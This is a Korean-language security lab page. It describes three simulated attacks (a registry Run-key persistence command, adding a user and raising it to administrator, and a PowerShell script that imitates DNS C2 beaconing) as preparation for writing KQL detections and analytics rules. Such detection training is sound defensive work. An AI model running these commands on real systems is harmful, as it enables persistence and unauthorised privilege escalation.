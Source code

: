 ﻿# 모듈 7 - 랩 1 - 연습 4 - 검색 모델링 이해

### 작업 1: 공격 이해

**중요: 이 연습에서는 특별한 작업을 수행하지 않으며**  여기에 나오는 지침은 다음 연습에서 수행하게 될 공격에 대한 설명입니다. 이 페이지의 내용을 주의하여 읽어보세요.

이 공격의 패턴은 오픈 소스 프로젝트 https://github.com/redcanaryco/atomic-red-team을 토대로 작성된 것입니다.

**참고:** 랩을 진행하기 위해 짧은 시간 내에 트리거되는 설정도 있습니다.

#### 공격 1 - 레지스트리 키 추가를 통한 지속성 적용

이 공격은 명령 프롬프트에서 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 공격 2 - 사용자 추가 및 권한 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다.  그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 공격 3 -DNS/C2 

이 공격에서는 C2(명령 및 제어) 통신을 시뮬레이트합니다.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 작업 2: 검색 모델링 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다.  여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.

다음 랩에서는 엔드포인트용 Defender 및 Sysmon 포함 Windows가 설치된 Windows 호스트에서 동일한 공격을 실행합니다.  검색을 작성하는 과정에서 각 문의 데이터 정규화 방식 차이를 확인할 수 있습니다.

KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

그리고 나서 필요에 따라 분석 규칙의 다른 부분을 변경합니다.

# 연습 5 계속 진행
